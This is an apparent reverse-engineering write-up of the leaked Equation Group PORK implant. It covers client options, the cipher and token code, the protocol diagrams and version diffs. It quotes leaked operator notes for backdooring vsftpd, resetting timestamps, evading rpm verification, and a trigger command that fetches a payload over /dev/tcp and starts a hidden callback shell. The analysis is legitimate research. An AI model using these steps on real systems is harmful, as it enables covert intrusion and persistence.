

# PORK

An implant for external facing services that provides shell command execution or a NOPEN shell for "special" connections. Aside from implanting a single service, there are porked inetd executables in the leaks that will check each connection towards the inetd services for a PORK connection. The `porkclient` binary lets you connect to a porked service and run one command or spawn a NOPEN shell by uploading a NOPEN server through the porked service.

```
$ ./porkclient -h
Usage: ./porkclient OPTIONS
Valid Options:
	-h: this usage statement
	-v: version information
	-t: TCP connection (required for Nopen reuse mode)
	-u: UDP connection (only can specify one of -t or -u)
	-r: Reuse socket for Nopen connection (requires -t, -d, -f, -n, NO -c)
	-o OFFSET: UTC time offset (minutes)
	-s SRCPORT: source port (see list below for valid ports)
	-p DSTPORT: destination port
	-i HOST: destination IP/hostname
	-c COMMAND: shell command string
	-f FILENAME: local Nopen file to upload
	-n FILENAME: target executable name
	-d DIR: target directory to put Nopen in

Valid source ports:  3 51 3854 5671 8213 12634 16798 23247 35139 47923 53246 63201

./porkclient client version 3.0.0.1
```

## Communication between porkclient and porkserver

There are two communication flows. As a `porkclient` user, you have the option to execute one shell command on the remote host (-c option) or to spawn a NOPEN connection (-r option). All communication is "encrypted" with a (for me at least) unknown algorithm.

As indicated in the `porkclient` help menu, the porkclient must connect from a valid source port to the porked service.

### Encryption and Decryption

The encryption and decryption of the communications seen over the wire are fairly trivial. In C, it would be something like this:

```c
void pork_encrypt(uint8_t* buf, uint32_t length) {
        for(uint32_t i = 0; i < length; i++)
                buf[i] = (((uint32_t) buf[i]) * 185) & 0xff;
}

void pork_decrypt(uint8_t* buf, uint32_t length) {
        for(uint32_t i = 0; i < length; i++)
                buf[i] = (((uint32_t) buf[i]) * 137) & 0xff;
}
```

### Executing one command

#### Generating a token

A token is generated over the time bytes and the command. This token can be used by the porkserver (TODO: check if it does) to determine successful receipt of the command.



```c
uint16_t generate_token(uint8_t* buf, uint32_t length) {
        uint16_t token = 0xffff;
        for(uint32_t i = 0; i < length; i++) {
                token ^= (uint16_t) buf[i];
                for(uint32_t bit = 0; bit < 8; bit++) {
                        if(token & 1) 
                                token = (token >> 1) ^ 0xa001;
                        else
                                token >>= 1;
                }
        }
        return token;
}

```

There is a special case in that the token cannot be 0x6752 in this mode as it is reserved as the token value for setting up a NOPEN shell.

### Shell command execution communication

```

porkclient                               porkserver
     +                                       +
     |                                       |
     |                                       |
     |       [ token, time, command ]        |
     +--------------------------------------->
     |                                       |
     |                                       |
     |             [ token ]                 |
     <---------------------------------------+
     |                                       |
     |                                       |
     |         [ command output ]            |
     <---------------------------------------+
     |                                       |
     |                                       |
     +                                       +

```

The porkclient sends a token (a CRC like calculation over the time and command bytes), the time and the command string to the porkserver for execution. It then reads 2 bytes that have to contain the same token as it has sent before. After that it reads and decrypts the command output which is then outputted on the screen (of the Operator).

### NOPEN communication

```
porkclient                               porkserver
     +                                        +
     |                                        |
     |                                        |
     | [token, time, target dir, target file] |
     +---------------------------------------->
     |                                        |
     |                                        |
     |        [ token, response code ]        |
     <----------------------------------------+
     |                                        |
     |                                        |
     |        [ size of NOPEN binary ]        |
     +---------------------------------------->
     |                                        |
     |                                        |
     |  [ NOPEN binary in chunks of 0xffff ]  |
     +---------------------------------------->
     |                                        |
     |                                        |
     |        [ token, response code ]        |
     < ---------------------------------------+
     |                                        |
     |                                        |
     +                                        +

```

The first message of the porkclient when it wants to start a NOPEN connection contains a token (always `0x6752` for this mode), the time and the target directory and filename for the NOPEN binary. The porkclient then receives the token back along with a response code indicating whether this filepath can be used. If everything is OK, the size of the NOPEN binary is sent and then the NOPEN binary in 64KiB chunks.  After the last message and a response code that claims success (`0xff8c985b`), the porkclient will launch `noclient` via a plain `system()` function call.

#### Response codes

These might be useful if they're also used in other Equation Group binaries (currently not known).

| Response code        | Description           | 
| ------------- |-------------|
| 0x606a4bec      | Could not open remote filepath for writing. | 
| 0x6232e8ea      | Remote directory name does not exist.      |
| 0x728c74bd | Received error response code for NOPEN exeuction.      |
| 0x7f689fe5 | Remote filepath already exists / contains a file.      |
| 0xa78078c2 | Directory name exists but is not a directory.      |
| 0xff8c985b | Ready to receive NOPEN binary!      |

## Testing PORK

Install 'a' inetd:
```
apt-get install inetutils-inetd
```

Configure a dummy service in `/etc/inetd.conf`:
```
31337 stream tcp nowait nobody /tmp/test.pl test.pl
```

`Test.pl` can be very simple:
```perl
#!/usr/bin/perl

my $input = <STDIN>;
print "Hello there $input!\n";
exit(0);
```

Now shutdown your inetd: `service inetutils-inetd stop` and start `porkserver`.

On the client side, run `porkclient` as such:
```bash
$ ./porkclient -c "echo porkclient connecting" -t -s 3854 -p 31337 -i pwned.local

porkclient connecting

$
```

Note that running `porkserver` instead of the real inetd doesn't break the inetd services. They continue to work as normal for non-PORK connections.

## Version differences

The leaks contain three different versions of the porkclient and three different porkserver variants, giving us a good look in the added functionality between versions.

```
$ radiff2 -s porkclient.v3.0.0.1 porkclient.v3.1.0.1 
File size differs 11868 vs 12188
similarity: 0.973
distance: 327
$ radiff2 -s porkclient.v3.0.0.1 porkclient.v3.2.0.1 
File size differs 11868 vs 13352
similarity: 0.816
distance: 2461
$ radiff2 -s porkclient.v3.1.0.1 porkclient.v3.2.0.1 
File size differs 12188 vs 13352
similarity: 0.836
distance: 2189
```

```
$ radiff2 -AC porkclient.v3.0.0.1 porkclient.v3.2.0.1 
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
             fcn.08048a8c   47 0x8048a8c | UNMATCH  (0.829787) | 0x8048a8c    47 fcn.08048a8c
             fcn.0804a05c   26 0x804a05c |   MATCH  (0.846154) | 0x804a2bc    26 fcn.0804a2bc
             fcn.08049fdb   54 0x8049fdb | UNMATCH  (0.962963) | 0x804a23b    54 fcn.0804a23b
             fcn.0804880c   23 0x804880c |   MATCH  (0.913043) | 0x804880c    23 fcn.0804880c
             fcn.08049f8a   68 0x8049f8a | UNMATCH  (0.441176) | 0x804a1ea    68 fcn.0804a1ea
             fcn.08048e1e  103 0x8048e1e |     NEW  (0.000000)
           sub.strlen_cd8  168 0x8048cd8 | UNMATCH  (0.964286) | 0x8048d1a   168 sub.strlen_d1a
           sub.strlen_d80  158 0x8048d80 | UNMATCH  (0.505952) | 0x8048dc2   158 sub.strlen_dc2
             fcn.0804a038   33 0x804a038 | UNMATCH  (0.272727) | 0x804a298    33 fcn.0804a298
             fcn.08048ac0   42 0x8048ac0 | UNMATCH  (0.904762) | 0x8048ac0    42 fcn.08048ac0
             fcn.08048a68   33 0x8048a68 | UNMATCH  (0.939394) | 0x8048a68    33 fcn.08048a68
             sym.imp.exit    6 0x80489c4 |   MATCH  (0.666667) | 0x80489c4     6 sym.imp.exit
    sym.imp.gethostbyname    6 0x80489b4 |   MATCH  (0.666667) | 0x80489b4     6 sym.imp.gethostbyname
          sym.imp.isdigit    6 0x8048994 |   MATCH  (0.666667) | 0x8048994     6 sym.imp.isdigit
sym.imp.__libc_start_main    6 0x8048954 |   MATCH  (0.666667) | 0x8048954     6 sym.imp.__libc_start_main
           sym.imp.strtol    6 0x8048944 |   MATCH  (0.666667) | 0x8048944     6 sym.imp.strtol
 sym.imp.__errno_location    6 0x80488a4 |   MATCH  (0.666667) | 0x80488a4     6 sym.imp.__errno_location
           sym.imp.fflush    6 0x8048884 |   MATCH  (0.666667) | 0x8048884     6 sym.imp.fflush
          sub.fprintf_aec   35 0x8048aec |   MATCH  (0.828571) | 0x8048aec    35 sub.fprintf_aec
           sym.imp.printf    6 0x8048964 |   MATCH  (0.666667) | 0x8048964     6 sym.imp.printf
          sub.fprintf_b0f  457 0x8048b0f |   MATCH  (0.724665) | 0x8048b0f   523 sub.fprintf_b0f
           sym.imp.perror    6 0x8048864 |   MATCH  (0.666667) | 0x8048864     6 sym.imp.perror
           sym.imp.system    6 0x80488b4 |   MATCH  (0.666667) | 0x80488b4     6 sym.imp.system
          sym.imp.sprintf    6 0x8048a14 |   MATCH  (0.666667) | 0x8048a14     6 sym.imp.sprintf
            sym.imp.fgets    6 0x8048914 |   MATCH  (0.666667) | 0x8048914     6 sym.imp.fgets
            sym.imp.ntohl    6 0x8048834 |   MATCH  (0.666667) | 0x8048834     6 sym.imp.ntohl
            sym.imp.ntohs    6 0x8048924 |   MATCH  (0.666667) | 0x8048924     6 sym.imp.ntohs
             sym.imp.read    6 0x8048a34 |   MATCH  (0.666667) | 0x8048a34     6 sym.imp.read
            sym.imp.write    6 0x8048844 |   MATCH  (0.666667) | 0x8048844     6 sym.imp.write
           sym.imp.strlen    6 0x8048934 |   MATCH  (0.666667) | 0x8048934     6 sym.imp.strlen
             sym.imp.open    6 0x80489a4 |   MATCH  (0.666667) | 0x80489a4     6 sym.imp.open
          sym.imp.__xstat    6 0x80488c4 |   MATCH  (0.666667) | 0x80488c4     6 sym.imp.__xstat
           sub.__xstat_14   34 0x804a014 |   MATCH  (0.558824) | 0x804a274    34 sub.__xstat_274
             sub.open_e85 1969 0x8048e85 | UNMATCH  (0.860797) | 0x8048ec7  2033 sub.open_ec7
            sym.imp.close    6 0x8048854 |   MATCH  (0.666667) | 0x8048854     6 sym.imp.close
           sub.strlen_636  967 0x8049636 | UNMATCH  (0.808349) | 0x80496b8  1054 sub.strlen_6b8
            sym.imp.htonl    6 0x8048894 |   MATCH  (0.666667) | 0x8048894     6 sym.imp.htonl
           sym.imp.mktime    6 0x80488f4 |   MATCH  (0.666667) | 0x80488f4     6 sym.imp.mktime
           sym.imp.gmtime    6 0x80489d4 |   MATCH  (0.666667) | 0x80489d4     6 sym.imp.gmtime
             sym.imp.time    6 0x80488e4 |   MATCH  (0.666667) | 0x80488e4     6 sym.imp.time
       sym.imp.setsockopt    6 0x80488d4 |   MATCH  (0.666667) | 0x80488d4     6 sym.imp.setsockopt
          sym.imp.connect    6 0x8048a04 |   MATCH  (0.666667) | 0x8048a04     6 sym.imp.connect
             sym.imp.bind    6 0x8048974 |   MATCH  (0.666667) | 0x8048974     6 sym.imp.bind
           sym.imp.socket    6 0x8048a24 |   MATCH  (0.666667) | 0x8048a24     6 sym.imp.socket
            sym.imp.htons    6 0x80489e4 |   MATCH  (0.666667) | 0x80489e4     6 sym.imp.htons
           sym.imp.memcpy    6 0x8048984 |   MATCH  (0.666667) | 0x8048984     6 sym.imp.memcpy
           sym.imp.memset    6 0x80489f4 |   MATCH  (0.666667) | 0x80489f4     6 sym.imp.memset
          sym.imp.fprintf    6 0x8048874 |   MATCH  (0.666667) | 0x8048874     6 sym.imp.fprintf
           sym.imp.getopt    6 0x8048904 |   MATCH  (0.666667) | 0x8048904     6 sym.imp.getopt
                     main  155 0x80499fd | UNMATCH  (0.784530) | 0x8049ad6   181 main
                   entry0   33 0x8048a44 |   MATCH  (0.818182) | 0x8048a44    33 entry0

```

TODO: do more research into this.

## Use case: porked vsftpd

The mission notes contain an example about a binary (vsftpd) with the PORK implant. After implanting (and compiling), you just overwrite the original vsftpd binary on the remote host, reset the timestamps and then restart the service so your porked binary is running. Then you can remotely connect to it using the porkclient (via tunnels, redirectors, ...). By implanting a service itself instead of the inetd superserver, you remove the dependency on inetd if the target doesn't use it. You can run DIZZYTACHOMETER to fool rpm about the package mismatches.
```

###### PORKED VSFTP Server  #################################

# check to see if can use DIZZYTACHOMETER to remove mismatched vsftpd

rpm --version

whereis vsftpd

rpm -qf /usr/sbin/vsftpd

rpm -V vsftpd-1.1.3-8

-lt /usr/lib/librpm-4.1.so /usr/lib/librpmdb-4.1.so /usr/lib/librpmio-4.1.so /usr/lib/libpopt.so /usr/lib/libbeecrypt.so /usr/lib/libbz
2.so

# or
-lt /usr/lib/librpm-4.2.so /usr/lib/librpmdb-4.2.so /usr/lib/librpmio-4.2.so /usr/lib/libpopt.so /usr/lib/libbeecrypt.so /usr/lib/libbz
2.so

-lt /usr/sbin/vsftpd
# normal vsftpd md5sum: 11111ecd2d3ab44015eae3592fcfaec7
# porked vsftpd md5sum: bde8b06829df05be8be4b5972a2d4a39
md5sum vsftpd

-put /current/up/it it
./it /usr/sbin/vsftpd

cp /usr/sbin/vsftpd ?
-put /current/up/vsftpd vsftpd
cp vsftpd /usr/sbin/vsftpd
# use itime results to reset vsftpd times to original settings
./it /usr/sbin/vsftpd

service vsftpd stop
service vsftpd start


########  Trigger porked vsftpd

### in local window, get nopen ready
packrat -z NETCAT_PORT

### on redirector, get nopen listener ready
-nrtun NOPEN_PORT


### on redirector, set up tunnel, use a "pork source port" from list below
-tunnel
l 21 TARGET_IP 21 SPORT
r NETCAT_PORT

### in scripted local window, send pork trigger

#Usage: ./client -t|-u timeadj sport hostname dport command
#sport: 3 51 3854 5671 8213 12634 16798 23247 35139 47923 53246 63201

#./client -t|-u [tcp/udp] timeadj sport [(valid source ports for the server are: 3, 51, 3854, 5671, 8213, 12634, 16798, 23247, 35139, 47923, 53246, 63201)]  hostname[Host IP]  dport [(port on which PORKified daemon is listening)] command"

./client -t 0 SPORT 127.0.0.1 21 "cd /tmp;mkdir -p .scsi && cd .scsi; cat < /dev/tcp/PITCH_IP/NETCAT_PORT > sendmail.uu && uudecode sendmail.uu && chmod 755 sendmail && PATH=. S=1 D=-cPITCH_IP:NOPEN_PORT ./sendmail"


```
Source: [https://github.com/stoicsurgeon/EQGRP_Linux/blob/33810162273edda807363237ef7e7c5ece3e4100/Linux/doc/old/etc/user.mission.generic.COMMON.old#L4447-L4505](https://github.com/stoicsurgeon/EQGRP_Linux/blob/33810162273edda807363237ef7e7c5ece3e4100/Linux/doc/old/etc/user.mission.generic.COMMON.old#L4447-L4505)


